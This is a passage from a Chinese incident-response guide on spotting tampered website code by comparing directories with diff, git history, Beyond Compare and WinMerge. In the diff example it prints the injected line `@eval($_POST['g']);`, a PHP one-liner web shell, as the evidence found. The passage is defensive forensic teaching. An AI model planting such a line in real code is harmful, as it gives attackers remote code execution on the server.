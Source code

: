 **2、diff命令**

在linux中，我们经常使用diff来比较两个文本文件的差异。同样，我们可以通过一行命令快速找出两个项目文件的差异。

```
diff -c -a -r cms1 cms2
```

如下图所示，前三行列出了两个要对比的文件目录的差异，可以发现low.php文件被篡改过，篡改的内容是`@eval($_POST['g']);`。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-3.png)

备注：如果只是想查看两个文件是否不同又不想显示差异之处的话，可以加上－q选项。

**3、版本控制工具**

版本控制工具，比如说git，重新上传代码到git，add+commit+push，然后打开项目，点击commits，在历史提交版本里面，查看文件更改内容，很容易就可以发现代码被篡改的地方了。

另外，也可以通过git diff 用来比较文件之间的不同。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-4.png)

**4、文件对比工具**

关键词：代码对比工具，你会找到很多好用的工具，这里我们推荐两款效果还不错的工具，Beyond Compare和WinMerge。

**Beyond Compare**

Beyond Compare是一套由Scooter Software推出的文件比较工具。主要用途是对比两个文件夹或者文件，并将差异以颜色标示，比较范围包括目录，文档内容等。

下载地址：http://www.scootersoftware.com/download.php

软件使用示例，通过文件夹比较，找出文件夹中的差异内容。

1、双击Beyond Compare ，打开软件主页，选择文件夹比较。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-5.png)

2、在双边栏输入文件夹路径，点击显示差别，列出差异部分的内容，紫色部分为新增文件，红色部分为篡改文件。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-6.png)

3、双击具体文件，进入代码对比，找到代码差异部分。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-7.png)

**WinMerge**

WinMerge是一款运行于Windows系统下的文件比较和合并工具，使用它可以非常方便地比较文件夹和文件，以易于理解的可视文本格式显示差异。

下载地址：https://winmerge.org/downloads/

1、文件--打开，选择文件或文件夹，然后点击进行比较。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-8.png)

2、在同一个界面里，通过颜色和文本提示，显示文件夹内容差异。

![img](https://bypass007.github.io/Emergency-Response-Notes/Summary/image/20200411-9.png)
